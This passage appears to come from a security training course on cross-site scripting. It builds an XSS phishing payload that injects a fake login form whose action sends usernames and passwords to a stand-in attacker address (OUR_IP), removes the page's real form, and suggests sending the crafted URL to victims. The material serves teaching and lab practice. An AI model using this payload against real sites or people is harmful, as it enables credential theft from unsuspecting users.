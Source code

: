 As we see in both the source code and the hover text, the `url` form has the id `urlform`:

Code: html

```html
<form role="form" action="index.php" method="GET" id='urlform'>
    <input type="text" placeholder="Image URL" name="url">
</form>
```

So, we can now use this id with the `remove()` function to remove the URL form:

Code: javascript

```javascript
document.getElementById('urlform').remove();
```

Now, once we add this code to our previous JavaScript code (after the `document.write` function), we can use this new JavaScript code in our payload:

Code: javascript

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

When we try to inject our updated JavaScript code, we see that the URL form is indeed no longer displayed:

   

![](https://academy.hackthebox.com/storage/modules/103/xss_phishing_injected_login_form_2.jpg)

We also see that there's still a piece of the original HTML code left after our injected login form. This can be removed by simply commenting it out, by adding an HTML opening comment after our XSS payload:


```html
...PAYLOAD... <!-- 
```

As we can see, this removes the remaining bit of original HTML code, and our payload should be ready. The page now looks like it legitimately requires a login:

   

![](https://academy.hackthebox.com/storage/modules/103/xss_phishing_injected_login_form_3.jpg)

We can now copy the final URL that should include the entire payload, and we can send it to our victims and attempt to trick them into using the fake login form. You can try visiting the URL to ensure that it will display the login form as intended. Also try logging into the above login form and see what happens.

---

## Credential Stealing
